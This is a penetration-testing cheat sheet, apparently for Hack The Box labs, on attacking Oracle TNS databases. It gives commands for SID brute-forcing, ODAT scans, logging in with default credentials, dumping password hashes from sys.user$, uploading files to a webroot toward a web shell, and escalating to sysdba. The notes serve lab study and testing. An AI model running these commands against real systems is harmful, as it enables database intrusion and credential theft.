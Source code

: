 ```yaml
---
tags:
  - Enumeration
  - TCP
  - Oracle
  - OracleTransparentNetworkSubstrate
  - TNS
aliases:
  - Oracle
---
```

The `Oracle Transparent Network Substrate` (`TNS`) server is a communication protocol that facilitates communication between Oracle databases and applications over networks. Initially introduced as part of the [Oracle Net Services](https://docs.oracle.com/en/database/oracle/oracle-database/18/netag/introducing-oracle-net-services.html) software suite, TNS supports various networking protocols between Oracle databases and client applications, such as `IPX/SPX` and `TCP/IP` protocol stacks. As a result, it has become a preferred solution for managing large, complex databases in the healthcare, finance, and retail industries. In addition, its built-in encryption mechanism ensures the security of data transmitted, making it an ideal solution for enterprise environments where data security is paramount.

## Walkthroughs

[HTB: Silo | 0xdf hacks stuff](https://0xdf.gitlab.io/2018/08/04/htb-silo.html)


## SID Brute Forcing 

See [[2. Enumeration/TCP/1521. Oracle Transparent Network Substrate (TNS)/2. Information#System Identifiers|SID Information]]

```shell-session
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

## Enumeration 

Those scans can retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations, etc.

See [[Oracle Database Attacking Tool (ODAT)]]

```shell-session
./odat.py all -s 10.129.204.235
```

## Commands 

See [[SQLPlus]]
## Commands 

There are many [SQLplus commands](https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985) that we can use to enumerate the database manually.
#### Connection 

Where `XE` is a found `SID` and the username/password is `scott` and `tiger`.

```shell-session
sqlplus scott/tiger@10.129.204.235/XE
```

If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).

```shell-session
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
### Enumeration

#### User Privilege

```shell-session
select table_name from all_tables;
```

```shell-session
select * from user_role_privs;
```

#### Extract Password Hashes 

```shell-session
select name, password from sys.user$;
```


## Upload Web Shell

If the server is also running a web server we may be able to upload a web shell.
#### File Upload 

```shell-session
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

```shell-session
curl -X GET http://10.129.204.235/testing.txt
```

## Privilege Escalation

If a user is provided appropriate privileges typically granted by the database administer we can try using this account to log in as the System Database Admin (`sysdba`), giving us higher privileges.

```shell-session
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
